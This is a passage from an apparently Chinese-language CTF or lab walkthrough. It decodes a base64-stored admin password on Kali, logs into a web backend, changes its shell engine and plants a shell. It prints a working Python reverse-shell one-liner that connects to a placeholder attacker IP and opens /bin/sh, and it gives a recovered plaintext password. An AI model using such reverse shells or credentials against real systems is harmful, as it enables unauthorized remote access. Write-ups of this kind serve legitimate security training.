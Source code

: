 base64解密

```
┌──(root💀kali)-[/tmp]
└─# echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d          
xWinter1995x!    
```

使用`admin`登录后台，修改shell引擎

![image-20220910000723529](../../.gitbook/assets/image-20220910000723529.png)

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP ADRESINIZ>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

写shell

![image-20220910000904461](../../.gitbook/assets/image-20220910000904461.png)
